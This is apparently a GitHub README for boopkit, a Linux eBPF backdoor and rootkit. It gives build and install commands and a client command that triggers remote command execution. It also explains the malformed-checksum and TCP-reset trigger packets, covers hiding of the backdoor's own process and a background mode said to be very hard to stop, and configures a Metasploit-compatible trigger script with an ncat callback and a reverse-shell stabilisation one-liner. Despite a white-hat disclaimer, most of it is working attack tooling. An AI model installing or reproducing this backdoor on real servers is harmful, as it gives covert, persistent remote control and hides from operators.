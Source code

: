 ![Screenshot from 2022-04-18 12-24-15](https://user-images.githubusercontent.com/13757818/163839421-a575dda4-6711-4437-ad43-1534a168e891.png)

Linux backdoor, rootkit, and eBPF bypass tools.
Remote command execution over raw TCP.

 - Tested on Linux kernel 5.16
 - Tested on Linux kernel 5.17
 - Remote code execution over TCP (SSH, Nginx, Kubernetes, etc)
 - Network gateway bypass (bad checksums, TCP reset)
 - Self obfuscation at runtime (eBPF process hiding)

##### Disclaimer

> This is **NOT** an exploit! This requires prior privileged access on a server in order to work!
> I am a professional security researcher. These are white hat tools used for research purposes only.
> Use this responsibly. Never use this software illegally.

## Server Side

Download and build boopkit.

```bash
wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.2.0.tar.gz
tar -xzf v1.2.0.tar.gz 
cd boopkit-1.2.0/
make
sudo make install
```

Run boopkit in the foreground. 

```bash 
# Reject all boops on localhost and 10.0.0.1
boopkit -x 127.0.0.1 -x 10.0.0.1
```

Run boopkit in the background in quiet mode.

```bash 
# Danger! This can be VERY hard to stop! Run this at your own risk!
boopkit -q &
```

Boopkit is now running and can be exploited using the client `boopkit-boop` command line tool.

## Client Side

Download and build boopkit.

```bash
wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.2.0.tar.gz
tar -xzf v1.2.0.tar.gz 
cd boopkit-1.2.0/
make
sudo make install
```
Run boopkit-boop against the server.

```bash 
# ===================
RCE="ls -la"
# ===================
LHOST="127.0.0.1"
LPORT="3535"
RHOST="127.0.0.1"
RPORT="22"
boopkit-boop \
  -lhost $LHOST \
  -lport $LPORT \
  -rhost $RHOST \
  -rport $RPORT \
  -c "$RCE"
```

# Boop Vectors

Boopkit will respond to various events on the network. Both of which can be triggered with the `boopkit-boop` tool.

TCP Header Format. Taken from [RFC 793](https://datatracker.ietf.org/doc/html/rfc793#section-3.1). September 1981
```
        0                   1                   2                   3
        0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |          Source Port          |       Destination Port        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                        Sequence Number                        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                    Acknowledgment Number                      |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |  Data |           |U|A|P|R|S|F|                               |
       | Offset| Reserved  |R|C|S|S|Y|I|            Window             |
       |       |           |G|K|H|T|N|N|                               |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |           Checksum            |         Urgent Pointer        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                    Options                    |    Padding    |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       {                             data                              }
       {                             ....                              }
       {                             data                              }
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### 1. Bad Checksum

First the `boopkit-boop` tool will send a malformed TCP SYN packet with an empty checksum to the server over a `SOCK_RAW` socket. This will trigger `boopkit` remotely regardless of what TCP services are running. This works against any Linux server running boopkit, regardless of the state of TCP services.

Use `-p` with `boopkit-boop` to only use this first vector.

⚠️ Some modern network hardware will DROP all malformed checksum packets such as the one required to exploit boopkit using this vector!

### 2. Sending ACK-RST packet

Next the `boopkit-boop` tool will complete a valid TCP handshake with a `SOCK_STREAM` socket against a remote TCP service such as SSH, Kubernetes, Nginx, etc. After the initial TCP handshake is complete, `boopkit-boop` will repeat the process a 2nd time.
The 2nd handshake will flip the TCP reset flag in the packet, trigger a TCP reset on the server.

Either of these tactics are enough to independently trigger boopkit.
Various network hardware and runtime conditions will make either tactic more viable.
Boopkit will try both, by default.

# Boopscript

The `boopscript` file is a [Metasploit](https://github.com/rapid7/metasploit-framework) compatible script that can be used to remotely trigger the boopkit backdoor after `boopkit-boop` is installed locally.

```bash
RHOST="127.0.0.1"
RPORT="22"
LHOST="127.0.0.1"
LPORT="3535"

NCAT="/usr/bin/ncat"
NCATLISTENPORT="3545"
```

### Compile Time Dependencies 

 - 'clang' 
 - 'bpftool'   Required for `libbpf`
 - 'xdp-tools' Required for `libxdp`
 - 'llvm'
 - 'pcap'
 - 'lib32-glibc'

### Reverse Shell Stabilization

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

### References

 - [Tracepoints with BPF](https://lwn.net/Articles/683504/)
 - [Raw TCP Sockets](https://github.com/MaxXor/raw-sockets-example)
 - [Bad BPF](https://github.com/pathtofile/bad-bpf)

Credit to the original authors for their helpful code samples! I forked a lot of code for this project! 
